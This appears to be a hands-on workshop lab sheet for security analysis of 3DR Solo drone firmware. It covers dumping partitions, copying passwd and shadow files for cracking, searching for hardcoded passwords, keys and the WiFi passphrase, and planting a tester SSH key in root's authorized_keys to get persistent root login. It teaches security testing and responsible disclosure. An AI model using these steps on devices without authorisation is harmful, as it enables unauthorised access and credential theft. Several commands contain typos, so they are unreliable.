




LAB60 minutes
Day 1 – UAV & Drone
Hack Our Drone Workshop — Dark Wolf Solutions
UAV firmware contains the operating system, configuration files, startup scripts, and binaries that run on the drone's companion computer or flight controller. Analyzing firmware reveals:
Default credentials (hardcoded passwords, SSH keys)
Network configuration (open ports, services, firewall rules)
Encryption keys or certificates
Proprietary communication protocols
Debug artifacts left by developers
Binwalk – firmware analysis and extraction
FAT (Firmware Analysis Toolkit) – automated emulation and analysis
Standard Linux tools: file, strings, grep, find, cat
# 3DR Solo firmware is available from the OpenSolo GitHub project
# ArduCopter firmware releases are on firmware.ardupilot.org
# Check the FCC ID for hardware certification docs with firmware links
# FCC ID for 3DR Solo: 2AC3P-800
# https://fccid.io/2AC3P-800
# Connect to 3DR Solo WiFi: SoloLink_XXXXXXXX
# SSH to the Solo companion computer
ssh root@10.1.1.10
# View partitions
cat /proc/mtd
lsblk
# Dump a partition (example: root filesystem)
dd if=/dev/mmcblk0p2 | gzip > solo-rootfs.img.gz
# Transfer to your laptop
# On your laptop:
scp root@10.1.1.10:/tmp/solo-rootfs.img.gz .
Remove microSD card from 3DR Solo UAV
Mount partition
Dump contents
Pull SD card for the 3D solo UAV
Insert the MicroSD card into the provided Gigastone USB thumbdrive
If a format dialog pops up in Wndows DO NOT FORMAT just hit CANCEL

In VirtualBox you need to confgure the USB passtrough to be able to see the SD card in your Kali Linux.
Generic USB2.0 Device
fdisk -l
We see a 32gb file system on /dev/sdb
Two of the partitions (sdb3 and sdb4) are Linux partitions

sudo mkdir -p /mnt/solo/p3
Creates a mount point to attach the /dev/sdb partition
sudo mount -o rw /dev/sdb3 /mnt/solo/p3
Mounts the microSD partition 3 as ‘read only’ to /mnt/solo/p3
ls /mnt/solo/p3
cp /mnt/solo/p2/3dr.....squashfs .
sudo unsquashfs 3dr...squashfs
ls # squashfs-root
cd unsquash-root/etc
mkdir /home/kali/unshadow
cp passwd /home/kali/unshadow
cp shadow /home/kali/unshadow
ls /home/kali/unshadow

We see some of the files we expect on a linux root filesystem, but not all.
# Shadow file — password hashes
cat /mnt/solo/etc/shadow
# Passwd file — user accounts
cat /mnt/solo/etc/passwd
# Look for hardcoded passwords in scripts
grep -r "password" /mnt/solo/etc/ --include="*.conf" --include="*.sh"
grep -r "passwd" /mnt/solo/usr/share/ -l
ls /mnt/solo/p3/etc
-Dump the contents of the wpa_supplicant.conf file
cat /etc/solo/p3/wpa_supplicant.conf
Lists the SSID and PSK (password) of the wifi connection
find /mnt/solo/p3 -name "*.pem" -o -name "*.key" -o -name "id_rsa" 2>/dev/null
cat /mnt/solo/p3/etc/ssh/sshd_config
cat /mnt/solo/p3/etc/inetd.conf 2>/dev/null
find /mnt/solo/p3 -name "*.service" | xargs grep -l "Listen\|Port" 2>/dev/null
cat /mnt/solo/p3/etc/init.d/* | grep -i "start"
find /mnt/solo/p3 -name "*.log" -o -name "debug*" 2>/dev/null
grep -r "TODO\|FIXME\|HACK\|debug" /mnt/solo/etc/ 2>/dev/null
# What runs at boot?
cat /mnt/solo/p3/etc/inittab 2>/dev/null
ls /mnt/solo/p3/etc/init.d/
cat /mnt/solo/p3/etc/rc.local 2>/dev/null
# What network services are configured?
cat /mnt/solo/p3/etc/hostapd.conf 2>/dev/null # WiFi AP configuration
cat /mnt/solo/p3/etc/wpa_supplicant.conf 2>/dev/null
cat /mnt/solo/p3/etc/network/interfaces 2>/dev/null
Run this command to examine the mounted filesystems on the 3DR Solo
ssh root@10.1.1.10 "mount | grep mmc"
The output should resemble the following
/dev/mmcblk0p2 on /mnt/boot type vfat (ro,relatime,fmask=0022,dmask=0022,codepage=437,iocharset=iso8859-1,shortname=mixed,errors=remount-ro)
/dev/mmcblk0p3 on /mnt/rootfs.rw type ext3 (rw,relatime,errors=continue,user_xattr,acl,barrier=1,data=ordered)
/dev/mmcblk0p4 on /log type ext4 (rw,relatime,data=ordered)
Note that partition 2 /dev/mmc0blk2 is mounted read only as indicated by the ro flag.
Note that partition 3 /dev/mmc0blk3 is mounted read write as indicated by the rw flag
This is because parition 3 is an overlay partition that allows for persistant modification of the underlying read only file system. Because it is read and write, files that we add to partition 3 will be included as part of the root filesystem during bootup.
Turn the 3DR UAV off.
Remove the microSD card
Insert the microSD card in the gigastone USB microSD card adapter
Insert the Gigastone adapter in the laptop
Configure USB passthrough to the Kali VM
# verify the microSD card is available
# in the Kali VM this will likely be on /dev/sdb
sudo fdisk -l
The output should resemble the following
Disk /dev/sdb: 7.44 GiB, 7988051968 bytes, 15601664 sectors
Disk model: Mass-Storage
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x0000e230
Device Boot Start End Sectors Size Id Type
/dev/sdb1 8192 188415 180224 88M c W95 FAT32 (LBA)
/dev/sdb2 194560 391167 196608 96M c W95 FAT32 (LBA)
/dev/sdb3 391168 585727 194560 95M 83 Linux
/dev/sdb4 585728 15521791 14936064 7.1G 83 Linux
Mount the RW partition so that you can modify it
mkdir -p /mnt/solo/p3
mount /dev/sdb3 /mnt/solo/p3
ls -l /mnt/solo/p3
Your output should resemble the following
total 21
drwxr-xr-x 4 root root 1024 Feb 13 2022 etc
drwxr-xr-x 3 root root 1024 Jan 26 2020 firmware
drwxr-sr-x 3 root root 1024 Feb 13 2022 home
drwx------ 2 root root 12288 Dec 31 1969 lost+found
drwxr-xr-x 2 root root 1024 Dec 31 1969 media
drwxr-xr-x 5 root root 1024 Dec 31 1969 mnt
-rw-r--r-- 1 root root 33 Feb 13 2022 PIX_VERSION
drwxr-xr-x 3 root root 1024 Dec 31 1969 run
lrwxrwxrwx 1 root root 8 Dec 31 1969 tmp -> /var/tmp
drwxr-xr-x 4 root root 1024 Jan 26 2020 usr
drwxr-xr-x 3 root root 1024 Dec 31 1969 var
The following instructions will add tester controlled ssh keys to the 3DR to allow for passwordless login.
# generate a SSH keypair
ssh-keygen -t rsa -f tester
Insert tester SSH key into 3DR root filesystem
sudo cp tester.pub /mnt/solo/p3/home/root/.ssh/authorized_keys
sudo chmod 0600 /mnt/solo/p3/home/root/authorized_keys
sudo chown -R root:root /mnt/solo/p3/home/root/.ssh
umount /mnt/solo/p3
Remove the Gigastone adapter from the 3DR UAV
Remove the microSD card from the Gigastone
Insert the microSD card into the 3DR Solo UAV
Power on the Controller, if not already powered on
Power on the 3DR Solo
On your laptop, join the wifi for your 3DR
Login to the 3DR Solo with the injected SSH Keys
ssh1 -i tester root@10.1.1.10
| Finding | Location | Severity |
|---|---|---|
| SSH root access enabled | /etc/ssh/sshd_config | High |
| WiFi passphrase in config | /etc/wpa_supplicant.conf | High |
| Telnet service enabled | /etc/inetd.conf | High |
| No firewall configuration | (absent) | Medium |
| Build artifacts / debug logs | /var/log/, /tmp/ | Low |
Once you have found all the content you need unmounnt the microsd card with the following command:
sudo umount /mnt/solo/pe3
What is the impact of a compromised root password on this drone?
If the WiFi passphrase is embedded in firmware, what does that mean for all 3DR Solo drones using the same firmware version?
How would you responsibly disclose a firmware vulnerability to a manufacturer?
What security controls would you add to this firmware?